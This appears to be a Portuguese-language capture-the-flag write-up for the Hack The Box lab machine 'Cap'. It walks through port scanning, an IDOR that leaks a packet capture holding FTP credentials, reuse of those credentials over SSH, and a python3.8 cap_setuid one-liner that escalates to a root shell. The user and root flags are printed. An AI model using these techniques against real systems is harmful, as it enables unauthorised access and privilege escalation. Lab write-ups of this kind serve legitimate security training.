



# Cap

**Difficulty: Easy**

```
10.129.56.141
```

### nmap
```bash
nmap -v --min-rate=5000 -p- 10.129.56.141

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -p 21,22,80 -sV 10.129.56.141

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

FTP não encontrei nada.

Acessando essa página web pelo Burp Suite, é possível encontrar um /capture



Enviando para o repeater e analisando a request, é possível encontrar um header na response
```
Location: http://10.129.56.141/data/1
```



Ao acessar, é possível fazer o download de um arquivo .pcap, mas ele não possui nenhuma informação. Trocando o /data/1 para /data/2 e fazendo o download do arquivo .pcap, percebo que é da minha conexão com a máquina, e também não encontro nada demais. O endpoint não valida se o ID pertence ao usuário atual, caracterizando um IDOR. Já utilizando /data/0 é possível perceber uma interação no servidor interno, navegando os pacotes encontro um protocolo FTP com credenciais em plaintext.



É possível encontrar o user nathan, com senha Buck3tH4TF0RM3!
```
nathan:Buck3tH4TF0RM3!
```

Entrando no ftp com essas credenciais, é possível encontrar o arquivo user.txt, vou rodar um get e ver o que tem dentro.
```bash
ftp 10.129.56.141
Connected to 10.129.56.141.
220 (vsFTPd 3.0.3)
Name (10.129.56.141:pdro): nathan
331 Please specify the password.
Password: Buck3tH4TF0RM3!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||64549|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 May 11 20:37 user.txt
226 Directory send OK.
ftp> get user.txt
226 Transfer complete.
```

### User flag
```bash
cat user.txt 
5359b5e9ac00c48ba6a7b9db8d1a1c0c
```

Agora vou testar a mesma senha do nathan no ssh.

```bash
ssh nathan@10.129.56.141
nathan@10.129.56.141's password:Buck3tH4TF0RM3!
```

Funcionou, consegui o acesso inicial.

Vou usar o LinEnum para fazer uma análise.
```bash
pdro@magic:~/htb/cap$ scp LinEnum.sh nathan@10.129.56.141:/tmp/
nathan@10.129.56.141's password: 
LinEnum.sh
```

```bash
nathan@cap:/tmp$ chmod +x LinEnum.sh 
nathan@cap:/tmp$ ./LinEnum.sh

[+] Files with POSIX capabilities set:
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

É possível encontrar uma capability no python3.8 em que o cap_setuid chame o setuid() para qualquer UID.
```bash
nathan@cap:/tmp$ python3.8 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:/tmp# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

### Root flag
```bash
root@cap:/tmp# cd /root/
root@cap:/root# cat root.txt 
180a7e6da397e1a70d8deff8929657a4
```
